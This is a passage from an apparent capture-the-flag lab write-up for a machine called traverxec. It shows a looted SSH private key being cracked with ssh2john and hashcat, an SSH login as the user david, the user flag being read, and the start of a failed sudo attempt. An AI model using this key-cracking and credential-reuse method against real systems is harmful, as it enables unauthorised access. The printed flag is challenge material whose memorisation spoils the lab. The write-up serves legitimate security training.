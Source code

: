 Seems like the ssh private key belongs to `david`

### Crack ssh private key

```bash
┌──(bravosec㉿fsociety)-[~/…/loot/home/david/.ssh]
└─$ ssh2john id_rsa > id_rsa.hash

┌──(bravosec㉿fsociety)-[~/…/loot/home/david/.ssh]
└─$ hashcat id_rsa.hash /opt/wordlists/rockyou.txt --user --show
Hash-mode was not specified with -m. Attempting to auto-detect hash mode.
The following mode was auto-detected as the only one matching your input hash:

22931 | RSA/DSA/EC/OpenSSH Private Keys ($1, $3$) | Private Key

NOTE: Auto-detect is best effort. The correct hash-mode is NOT guaranteed!
Do NOT report auto-detect issues unless you are certain of the hash type.

id_rsa:$sshng$1$16$477eeffba56f9d2...cf57655b10a283ff0:hunter
```

### SSH as david

```bash
┌──(bravosec㉿fsociety)-[~/…/loot/home/david/.ssh]
└─$ chmod 600 id_rsa

┌──(bravosec㉿fsociety)-[~/…/loot/home/david/.ssh]
└─$ ssh david@10.10.10.165 -i id_rsa
Enter passphrase for key 'id_rsa':
Linux traverxec 4.19.0-6-amd64 #1 SMP Debian 4.19.67-2+deb10u1 (2019-09-20) x86_64
Last login: Wed Aug  2 08:49:56 2023 from 10.10.14.46
david@traverxec:~$ id
uid=1000(david) gid=1000(david) groups=1000(david),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev)
david@traverxec:~$ cat user.txt
37c99e84fa9049c2ec96421809117045
```

# Root Flag
---

## Abuse hidden sudoers rules

Tried `Nowonly4me`, `hunter` for the password, did not work

```bash
david@traverxec:~/bin$ sudo -l
[sudo] password for david:
Sorry, try again.
[sudo] password for david:
Sorry, try again.
```
